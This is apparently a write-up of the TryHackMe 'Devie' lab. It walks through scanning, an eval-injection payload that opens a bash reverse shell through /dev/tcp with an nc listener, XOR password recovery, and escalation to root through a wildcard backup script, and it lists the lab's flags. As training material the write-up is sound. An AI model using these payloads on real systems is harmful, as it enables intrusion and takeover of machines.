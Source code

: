 # Devie

A writeup for the room [Devie](https://tryhackme.com/room/devie) on TryHackMe.

> A developer has asked you to do a vulnerability check on their system.

<Image src={require("./logo.png").default} width="256" />

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<Image src={require("./nmap.png").default} />

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<Image src={require("./website.png").default} />

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<Image src={require("./vuln.png").default} />

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`.

<Image src={require("./flag1.png").default} />

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<Image src={require("./key.png").default} />

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`.

<Image src={require("./flag2.png").default} />

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```sh
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```
